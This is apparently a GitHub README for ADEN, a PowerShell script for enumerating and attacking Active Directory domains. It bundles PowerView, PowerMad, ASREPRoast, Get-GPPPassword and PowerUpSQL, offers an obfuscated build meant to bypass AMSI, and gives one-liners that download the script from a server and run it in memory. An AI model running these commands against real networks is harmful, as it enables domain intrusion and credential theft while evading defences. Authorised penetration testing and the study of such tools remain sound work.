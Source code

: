 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. I've also included an obfuscated version to bypass AMSI.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
From a low privileged domain's user session, the function ```Invoke-FullEnum``` will launch a full enumeration of the domain.\
\
From a local admin user, the function ```Invoke-AdminEnum``` will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 
